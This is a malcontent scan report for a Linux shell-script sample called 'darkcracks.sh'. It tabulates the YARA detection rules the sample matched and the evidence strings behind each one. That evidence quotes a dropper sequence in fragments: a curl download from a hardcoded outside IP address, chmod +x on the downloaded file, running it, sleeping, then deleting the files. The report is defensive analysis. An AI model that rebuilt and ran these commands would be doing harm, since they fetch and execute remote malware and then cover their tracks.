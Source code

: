 ## linux/2024.Darkcracks/darkcracks.sh [🚨 CRITICAL]

|   RISK   |                                                                     KEY                                                                     |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                      |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [combo/dropper/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/combo/dropper/shell.yara#curl_chmod_relative_run_tiny)   | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/run_sleep_delete.yara#run_sleep_delete)     | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/fetch.yara#curl_download_ip)                                   | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [process/chdir/unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir-unusual.yara#unusual_cd_val_obsessive)   | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [ref/ip_port](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/ip_port.yara#hardcoded_ip_port)                              | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| HIGH     | [ref/site/http/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/site/http-ip.yara#http_hardcoded_ip)                    | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file-make_executable.yara#chmod_executable_shell) | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission-modify.yara#chmod)                        | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [ref/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/ip.yara#hardcoded_ip)                                             | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [ref/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/relative.yara#relative_path_val)                  | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [ref/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/root.yara#root_path_val)                              | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/shell/exec.yara#calls_shell)                                      | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| LOW      | [ref/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/var.yara#var_path)                                     | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [ref/site/url](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/site/url.yara#http_url)                                     | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |


